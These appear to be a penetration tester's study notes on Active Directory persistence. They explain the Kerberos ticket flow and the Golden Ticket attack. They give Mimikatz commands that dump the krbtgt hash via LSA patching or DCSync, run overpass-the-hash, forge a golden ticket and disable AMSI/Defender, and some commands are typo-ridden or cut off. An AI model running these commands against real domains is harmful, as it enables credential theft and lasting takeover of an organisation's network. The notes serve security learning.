# AD - Domain Dominance / Persistence

## Basics

* Once we have DA - new persistence is possible => escalation to Enterprise Admin and attacks across trusts
* Abusing trusts within domain, across domains and forests
* NTLM hash vor Kerberos are RC4, DES (both old) or AES encrypted&#x20;
* Kerberos policy only checked when TGT is created
* DC validates user account only when TGT > 20min
* Service Ticket (TGS) PAC is optional and not very often used
  * Server LSASS sends PAC validation request to DC netlogon service (NRPC)
  * It runs as servce, PAC validation is optional (disabled)
  * If a service runs as Syste, it performs server signature verification on the PAC (Computer account long-term key)
  *

**How Kerberos works**

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

1. Password converted to NTLM hash. A Timestamp is encrypted and signed with the NTLM hash of the Users Password and sent to the KDC (AS-REQ)
2. The TGT (Ticket granting ticket) is generated and encrypted & signed with the NTLM Hash of krbtgt hash
3. The TGT is sent back to DC, because client can not decrypt it. Client Request a TGS (Ticket granting service). \
   The DC assumes whatever is inside the TGT, as long as it can be decrypted with krbtgt, it is assumed to be valid.\
   ❓Up to 20 Minutes the TGT is valid?
4. The TGS is returned with encryption of the target service/application service's NTLM hash
5. The Applicatoin Server decrypts the TGS because it is with its own service NTLM hash encrypted, and then decides whether user can access

## 🥇Golden Ticket Attack

### Description

* A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket
* Since user account validation is not done by DC until TGT is older than 20min, we use even deleted/revoked accounts
* The krbtgt user hash could be used to impersonate any user with any privilege from even a non-domain machine
* Password change (of krbtgt account)has no effect on this attack because previous hash will also be accpeted
* Abuse is in Step 3 and 4, where a valid TGT is generated&#x20;

### Requirements

* krbtgt Hash has to be known

### Tools

**Execute Mimikatz on DC to get krbtgt hash - required DA privs**\
Invoke-Mimikatz -command '"lsadump:lsa /patch" -computername dc-hostname

&#x20;With powershell session on dc:\
$sess = New-Session -Computername dc.local\
Disable AMSI/Defender in that session\
Exit\
Invoke-command -session $ses -filepath C:\invoke-mimikatz.ps1\
Enter-Pssession  -session $sess\
Invoke-Mimikatz -command '"lsadump:lsa /patch\




**To use the DCSync feature for getting krbtgt hash, execute the following command - require DA privs:**\
Invoke-Mimikatz -command '"lsadump:dcsync /user:dom\krbtgt"'

**Overpass the hash to start powershell**\
Invoke-Mimikatz -command '"sekurlsa:pth /user:svcadmin /domain:dom.local /ntlm:hash /run:powershell.exe"'



**Create a golden ticket when we have the krbtgt hash extracted from above** \
****Invoke-Mimikatz - command '"kerberos::golden /User:Administrator /domain:dom.local /sid:S-1-5-21-..... /krbtgt:hash.... id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Use DCsync Attack / more silent in DC Logs\
\
\




